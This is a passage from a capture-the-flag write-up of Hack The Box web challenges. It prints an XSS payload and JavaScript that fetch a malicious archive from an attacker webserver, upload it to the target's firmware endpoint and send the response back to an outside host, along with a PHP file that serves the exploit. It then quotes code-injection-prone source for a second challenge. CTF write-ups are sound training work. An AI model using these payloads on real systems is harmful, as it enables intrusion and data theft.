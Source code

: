 After that set up a webserver for getting the malicious archive before.

```javascript
(async() => {
    var url = "http://webserver__"
    var f = await fetch(`${url}/`)
    content = await f.blob();
    console.log(content)
    var formData = new FormData();
    formData.append('file', content)
    await fetch("/api/firmware/upload", { method: 'POST', body: formData }).then((r)=>r.text()).then((r)=>fetch('https://webserver_/?q='+encodeURI(r)));
})()
```

And also we need to add CORS for our webserver.

```php
<?php
header('Access-Control-Allow-Origin: http://localhost:1337');
echo file_get_contents('./exploit.tar.gz');
?>
```

After the preparation is done, we just put the XSS payload in the issue textbox.

```html
<script src="http://webserver/main.js"></script>
```

After waiting for a few seconds, we received a callback from our server. and we could access the `/static/js/flag` for getting the flag.

![](acnologia-5.png)

**HTB{des3r1aliz3_4ll_th3_th1ngs}**

### Spiky Tamagotchi (325 points)

The value of this challenge is 325 points & +90 players have solved this challenge.

![](spiky-1.png)

We're given a website for login only.

![](spiky-2.png)

After doing some static analysis and dynamic analysis there's something that needs to point out.

at `challenge/helpers/SpikyFactory.js#L2:L17` there's a `Code Injection` where our input will pass into `anonymous function`.

```javascript
const calculate = (activity, health, weight, happiness) => {
    return new Promise(async (resolve, reject) => {
        try {
            // devine formula :100:
            let res = `with(a='${activity}', hp=${health}, w=${weight}, hs=${happiness}) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }`;
            quickMaths = new Function(res);
            const {m, hp, w, hs} = quickMaths();
            resolve({mood: m, health: hp, weight: w, happiness: hs})
        }
```